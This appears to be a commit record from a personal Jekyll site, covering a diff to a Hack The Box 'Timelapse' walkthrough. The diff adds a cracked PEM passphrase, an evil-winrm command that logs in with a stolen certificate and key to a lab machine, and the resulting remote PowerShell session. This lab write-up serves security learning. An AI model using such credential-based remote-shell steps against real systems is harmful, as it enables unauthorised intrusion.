

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 1400 px high, scrolled down 6402 px. Shown: the top 1322 px of the window, without its empty margins (0-753 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 7097 px from its top, so only the background shows below that.

Commit message:
Update timelapse.md

````diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -262,9 +262,36 @@ nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
 -----END CERTIFICATE-----
 ```
 
+<br>
+
 Next I installed [evil-winrm](https://github.com/Hackplayers/evil-winrm) with
 
 ```
 sudo dnf remove ruby && sudo dnf install ruby-devel
 gem install evil-winrm
 ```
+
+Again enter thuglegacy as password:
+
+<br>
+
+```
+[connor@fedora timelapse]$ evil-winrm -S -k privkey -c cert -i 10.10.11.152
+
+Evil-WinRM shell v3.4
+
+Warning: SSL enabled
+
+Info: Establishing connection to remote endpoint
+
+Enter PEM pass phrase:
+*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
+timelapse\legacyy
+*Evil-WinRM* PS C:\Users\legacyy\Documents>
+```
+
+<br>
+
+And we're in :)
+
+<br>
````
